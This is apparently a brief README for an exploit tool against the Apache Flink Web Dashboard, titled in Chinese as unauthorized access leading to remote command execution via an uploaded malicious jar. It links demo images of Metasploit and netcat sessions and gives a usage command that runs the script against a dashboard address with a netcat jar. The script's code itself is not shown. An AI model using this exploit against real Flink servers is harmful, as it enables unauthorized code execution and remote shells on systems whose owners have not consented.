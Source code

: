# Apache Flink Web Dashboard 未授权访问，上传恶意jar导致远程代码命令执行

![](./flink-msf.gif)

![](./flink-nc.gif)


## python usage:

`python 02-Flink.py http://10.10.20.100:8081 nc.jar`

![](./flink.jpg)


